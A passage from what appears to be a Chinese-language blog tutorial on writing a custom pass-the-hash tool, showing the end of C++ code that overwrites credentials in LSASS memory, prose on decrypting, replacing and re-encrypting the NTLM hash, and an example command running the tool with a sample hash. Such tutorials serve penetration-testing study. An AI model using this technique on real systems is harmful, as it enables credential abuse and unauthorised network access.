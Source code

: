 ```c++
					wprintf(L"      \\_ OK!\n");
				else
					wprintf(L"      \\_ WriteProcessMemory error!\n");
				
			}
		}
	}
	status = pthDataCred->pPthData->isReplaceOk;
	return status;
}
```

在  `Msv1_0CredsPth()` 函数中，我们先调用 `LsaUnprotectMemory()` 函数解密原始凭据，然后对解密后的凭证进行修改、替换，例如将 LM、SHA 以及 DPAPI 保护属性设置为 FALSE，内容用 0 填充，表明凭证不包含这些哈希值。`isNtOwfPassword` 属性设置为 TRUE，表明凭证中存在 NTLM 哈希，`NtOwfPassword` 设置为被替换的 NTLM 值。

接着，使用 `LsaProtectMemory()` 函数对修改、替换后的凭证做加密处理，并通过 `WriteProcessMemory()` 函数将其写入 LSASS 进程的原始地址中，覆盖其原有凭证。

至此，成功修改了与新进程关联的凭据。

## 2.4 恢复挂起的进程

最后，返回 `PassTheHash()` 函数中，调用 `NtResumeProcess()` 函数恢复开始时挂起的进程，该进程将使用新的凭据信息进行网络身份验证，至此完成哈希传递攻击。

# 4. 运行效果演示

以管理员权限运行 PassTheHash，即执行哈希传递，如下图所示。

```powershell
PassTheHash.exe /user:Administrator /domain:pentest.com /ntlm:570a9a65db8fba761c1008a51d4c95ab /run:cmd.exe
```

![image-20230127221059232](/assets/posts/2023-02-08-how-to-pass-the-hash-by-yourself//image-20230127221059232.png)